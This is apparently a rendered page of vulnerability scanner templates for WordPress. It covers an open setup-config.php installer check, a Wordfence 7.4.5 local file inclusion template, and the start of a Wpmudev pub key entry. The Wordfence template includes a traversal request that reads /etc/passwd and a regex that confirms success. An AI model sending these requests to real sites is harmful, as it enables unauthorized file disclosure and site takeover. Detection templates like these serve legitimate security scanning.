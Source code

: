 ### URL

- {{BaseURL}}/wp-admin/setup-config.php?step=1

### Matchers

**Type - word**

- words
  1. Below you should enter your database connection details.

**Type - status**

- status
  1. 200

---

# WordPress Wordfence 7.4.5 - Local File Inclusion

## Description

- WordPress Wordfence 7.4.5 is vulnerable to local file inclusion.
- severity - high
- tags - wordpress,wp-plugin,lfi,wordfence,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wordfence/lib/wordfenceClass.php?file=/../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Wpmudev Dashboard Pub Key

- severity - medium
- tags - wordpress,edb

